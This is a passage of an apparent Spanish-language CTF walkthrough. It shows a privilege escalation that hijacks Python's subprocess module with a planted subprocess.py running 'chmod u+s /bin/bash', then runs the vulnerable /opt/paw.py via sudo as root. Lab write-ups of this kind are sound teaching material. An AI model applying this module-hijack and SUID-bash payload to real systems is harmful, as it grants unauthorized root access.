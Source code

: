 ```
   run_command()  
  
if __name__ == "__main__":  
   main()
```

Se intenta ejecutar el archivo y se ve que hay un error. 
```
/usr/bin/python3 /opt/paw.py ls  
Ojo Aqui  
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.  
Useless calculation result: 499999500000  
Traceback (most recent call last):  
 File "/opt/paw.py", line 41, in <module>  
   main()  
 File "/opt/paw.py", line 38, in main  
   run_command()  
 File "/opt/paw.py", line 30, in run_command  
   subprocess.run(['echo Hello!'], check=True)  
 File "/usr/lib/python3.12/subprocess.py", line 548, in run  
   with Popen(*popenargs, **kwargs) as process:  
        ^^^^^^^^^^^^^^^^^^^^^^^^^^^  
 File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__  
   self._execute_child(args, executable, preexec_fn, close_fds,  
 File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child  
   raise child_exception_type(errno_num, err_msg, err_filename)  
FileNotFoundError: [Errno 2] No such file or directory: 'echo Hello!'
```

Ya que este archivo parece tener un error, nos podemos aprovechar de este y crear uno con el nombre que está buscando y explotarlo por ahí. Creamos un archivo llamado 'echo Hello!', pero al tener comillas genera errores y sale el mismo problema.

Podemos agregar nuestro directorio actual al path, usando:
```
export PATH=/opt:$PATH
```

Y además creamos un archivo llamado `subprocess.py`donde su contenido será un script que de permisos a cualquier usuario y este pueda ejecutar la bash como root.
```bash
nano subprocess.py

cat subprocess.py
import os;
os.system("chmod u+s /bin/bash")
```

Una vez hecho esto ejecutamos el archivo paw.py como root y podemos ver que tenemos un error. Pero esta vez tomó el archivo como el módulo que necesitaba.
```bash
sudo -u root /usr/bin/python3 /opt/paw.py    
Ojo Aqui  
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.  
Useless calculation result: 499999500000  
Traceback (most recent call last):  
 File "/opt/paw.py", line 41, in <module>  
   main()  
 File "/opt/paw.py", line 38, in main  
   run_command()  
 File "/opt/paw.py", line 30, in run_command  
   subprocess.run(['echo Hello!'], check=True)  
   ^^^^^^^^^^^^^^  
AttributeError: module 'subprocess' has no attribute 'run'
```
